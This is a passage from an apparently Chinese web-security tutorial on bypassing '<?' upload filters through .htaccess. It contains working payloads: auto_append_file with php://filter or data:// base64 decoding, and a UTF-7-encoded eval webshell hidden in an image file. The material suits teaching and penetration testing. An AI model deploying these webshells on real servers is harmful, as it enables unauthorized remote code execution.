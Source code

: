 ### 绕过 <? 特殊字符

有时候，目标环境会限制我们上传或写入的文件内容中不能存在 <? 等特殊字符，如果没有限制 .htaccess 的话，我们同样可以使用 .htaccess 来绕过。

#### Base64 编码绕过

主要就是利用 auto_append_file 和 PHP 伪协议，比如我们在一个图片中写入经过base64编码后的 Webshell，然后我们便可以使用 auto_append_file 配合 php://filter 将其包含进来：

```php
php_value auto_append_file "php://filter/convert.base64-decode/resource=images.png"

# images.png 中是经过base64编码后的Webshell
```

我们直接使用data://协议也是可以的，这样就不需要上传 images.png 了：

```php
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
```

![img](文件上传.assets/1681146123530-f8c19729-e2bf-4bb3-97c6-da92136c3bd2.png)

#### UTF-7 编码格式绕过

这种方法我们在前文中已经涉及到了，比如我们在一个图片中写入 UTF-7 编码格式的 Webshell：

```php
// images.png
+ADw?php eval(+ACQAXw-POST+AFs-whoami+AF0)+ADs?+AD4-
```
